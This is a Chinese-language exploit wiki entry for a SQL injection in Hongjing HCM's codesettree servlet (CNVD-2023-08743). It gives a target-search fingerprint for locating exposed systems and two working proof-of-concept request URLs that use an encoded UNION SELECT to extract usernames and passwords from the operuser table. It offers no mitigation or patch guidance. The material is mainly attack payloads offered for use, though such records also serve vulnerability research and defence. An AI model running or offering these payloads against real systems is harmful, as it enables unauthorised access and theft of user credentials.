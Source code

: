 # 宏景 HCM codesettree SQL注入漏洞 CNVD-2023-08743

## 漏洞描述

宏景 HCM codesettree 接口存在SQL注入漏洞，攻击者通过漏洞可以获取到登陆系统的账号密码和数据库信息

## 漏洞影响

<a-checkbox checked>宏景 HCM</a-checkbox></br>

## 网络测绘

app="HJSOFT-HCM"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1683867071190-3dd51bbf-781c-402c-9664-b769099d6c2a.png)

验证POC

```php
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cusername~20from~20operuser~20~2d~2d
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cpassword~20from~20operuser~20~2d~2d
```

![img](/assets/PeiQi-Wiki/img/1686056902027-f31d6443-4eac-449e-9228-23edc783f56f.png)